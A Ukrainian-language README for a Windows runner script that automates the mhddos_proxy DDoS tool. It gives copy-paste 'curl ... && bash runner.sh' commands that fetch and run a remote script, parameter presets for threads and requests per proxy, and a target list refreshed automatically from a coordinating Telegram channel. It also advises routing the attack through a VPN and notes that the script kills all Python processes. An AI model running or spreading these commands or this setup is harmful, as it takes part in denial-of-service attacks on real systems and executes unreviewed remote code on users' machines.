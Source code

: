 # Опис runner_for_windows

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Windows-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy та proxy_finder  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє список машин по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux  
  
[**Варіант для Mac**](https://github.com/alexnest-ua/auto_mhddos_mac)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)    
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі (але перед тим ОБОВ'ЯЗКОВО встановіть VPN, який ніколи не відключиться сам: https://auto-ddos.notion.site/Cyberghost-f72074a09b224851b2058d559c0b2691 )  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси з Python (щоб старі атаки не накопичувалися)**
  
[**Налаштування**](https://github.com/alexnest-ua/runner_for_windows#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск атаки**](https://github.com/alexnest-ua/runner_for_windows#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%B0%D1%82%D0%B0%D0%BA%D0%B8)  
[**Приклад команд**](https://github.com/alexnest-ua/runner_for_windows#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8)  



  
Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Windows запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows-машину:  
йдемо сюди: https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27  
та пророблюємо 1 та 2 пункт (якщо раніше не зробили)  

після останнього пункту (встановлення Git) відкриваємо Git Bash:  
![image](https://user-images.githubusercontent.com/74729549/163037827-88e246e2-2187-4768-a7a1-4afec1d78e83.png)  
відкриється наступне вікно:  
![image](https://user-images.githubusercontent.com/74729549/163038391-896d66ef-ceeb-42b4-aa92-53b68abb59f1.png)


## Запуск атаки:  
**ПРИ РЕСТАРТІ КОМП'ЮТЕРА / АВТО-СКРИПТА СПЕРШУ ОБОВ'ЯЗКОВО ПОТРІБНО ВІДКРИТИ САМЕ Git Bash і ввести наступну команду, яка саме все завантажить:**
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh
```

**Далі можна просто ЗГОРНУТИ вікно і воно буде працювати нескінченно в фоні**  
***щоб зупинити - просто закрийте вікно з атакою***

**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
`curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh` [num_of_copies] [threads] [rpc] [debug] [vpn]  
- num_of_copies - кількість атакуємих за один прохід цілей (але не більше 3-ох)
- threads - кількість потоків (але не менше 1000, та не більше 5000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі
  
### Приклади команд з різними параметрами:
перед уведенням команд обов'язково треба відкрити Git Bash та зробити ось це:
```shell
cd ~
```
1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=1500 rpc=1000 debug="" vpn=""(1 ціль, 1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР)
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh
```
  
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків 
  
2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 1500 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 2000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 2 4000 2000
```

5. Потужна машина(9+ CPUs + 16+ GB RAM):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh all 5000 2500
```

  
*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати **4-тим** параметром --debug, що слідкувати за ходом атаки, та **5-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі, наприклад:*  
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 1500 1000 --debug --vpn
```
  
* Приклад БЕЗ параметру --debug та без --vpn:
![image](https://user-images.githubusercontent.com/74729549/165539242-2980e45c-227a-45b8-bece-59c52af4e106.png)
І після цього наступні 300 секунд НІЧОГО не буде виводитись, але це нормально
* Приклад З параметром --debug та З --vpn:
![image](https://user-images.githubusercontent.com/74729549/165539498-07073d5e-a9c0-4d32-8fb4-54aa4aaba1ca.png)
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки


* щоб Вбити процес - відкривайте вікно де він запущений та натискайте Ctrl+C (або якщо не спрацює - хрестик)  

УВАГА!!! Скрипт при рестарті (кожні 20 хвилин) вбиває запущені скрипти саме з mhddos_proxy, тому якщо запускаєте цей скрипт на Windows-машині, то свої атаки mhddos_proxy запускайте на [іншій машині](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)


## Список цілей  

  
runner.sh підтримує единий [список цілей](https://raw.githubusercontent.com/alexnest-ua/targets/main/targets_linux), який можна тримати на github і постійно оновлювати.  
  
  
  
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  
#test1
